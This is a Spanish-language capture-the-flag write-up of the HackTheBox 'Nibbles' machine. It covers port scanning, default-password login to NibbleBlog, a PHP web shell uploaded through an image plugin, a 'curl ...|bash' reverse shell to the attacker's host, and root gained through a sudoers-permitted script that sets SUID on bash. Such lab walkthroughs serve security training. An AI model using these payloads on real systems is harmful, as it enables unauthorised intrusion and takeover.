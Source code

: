 ```yaml
---
title: "HackTheBox: Nibbles"
author: cotes
date: 2019-08-08 11:33:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Linux, File Upload, Abuso de Sudoers]
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Nibbles/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Nibbles Machine Logo
---
```


Máquina Linux de nivel **Easy** de HackThBox.


### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos en la **`Máquina Nibbles`**

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Nibbles/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos.

* **`nmap -p<Ports> -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/Nibbles/02-versions.png)

c. Al ver el código fuente de la página web inicial, veremos una directorio por el cual podremos empezar a fuzzear

![](/assets/images/HTB/Easy/Nibbles/03-leak.png)


* El sitio web está levantado con **`NibbleBlog`** y podemos ver su código fuente en **`Github`** [NibbleBlog](https://github.com/dignajar/nibbleblog). Con esto podemos evitarnos realizar fuzzing.


* El directorio **`content`** contiene el directorio **`/private`** en el cual existe un fichero **`users.xml`**

    ```xml
    <user username="admin">
    <SNIP>
    ```

d. En el repositorio vemos un fichero **`admin.php`**, que es un panel de login, pero, al no poseer la contraseña del usuario **admin**, probamos con palabras comunes

* **`admin:admin`, `admin:password`, `admin:nibbles`**

e. Una vez autenticados, iremos al apartado de **`Plugins -> My Image`**. Intentamos subir un fichero **`php`** con el contenido **`<?php system($_GET["cmd"]); ?>`**

* Como nos fijamos, no existe ningun tipo de sanitización por lo que la 'imagen' se subió normalmente, para verla nos iremos a la siguiente ruta **`http://<IP>/nibbleblog/content/private/plugins/my_image/`**.

    ![](/assets/images/HTB/Easy/Nibbles/05-file_upload.png)

* Una vez garantizada la ejecución remota de comandos, entablamos una reverse shell.

    * **URL:** **`http://<IP Nibbles>/nibbleblog/content/private/plugins/my_image/image.php?cmd=curl%20http://<tun0 IP>:<Port>|bash`**

    ![](/assets/images/HTB/Easy/Nibbles/06-reverse.png)

### Escalada de Privilegios 💹

a. Listamos privilegios de tipos sudoers, que podamos tener

```bash
nibbler@Nibbles:/home/nibbler$ sudo -l

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

* Podemos ejecutar como root el archivo **`monitor.sh`**, sin embargo, este no existe, por lo que, al estar en nuestro directorio personal, lo que haremos es crear los directorios y el fichero con un script que otorgue el permiso **`SUID`** a la **`bash`**

    ```bash
    nibbler@Nibbles:/home/nibbler$ tree -fas
    .
    |-- [       4096]  ./personal
    |   `-- [       4096]  ./personal/stuff
    |       `-- [         18]  ./personal/stuff/monitor.sh

    nibbler@Nibbles:/home/nibbler/personal/stuff/$ cat monitor.sh
    chmod +s /bin/bash
    nibbler@Nibbles:/home/nibbler/personal/stuff/$ chmod +x monitor.sh
    ```

b. Ahora ejecutamos el script como **root**

```bash
nibbler@Nibbles:/home/nibbler$ sudo /home/nibbler/personal/stuff/monitor.sh
nibbler@Nibbles:/home/nibbler$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1037528 May 16  2017 /bin/bash
nibbler@Nibbles:/home/nibbler$ bash -p
bash-4.3# whoami
root
```

> Con esto hemos vulnerado la `Máquina Nibbles`
{: .prompt-tip }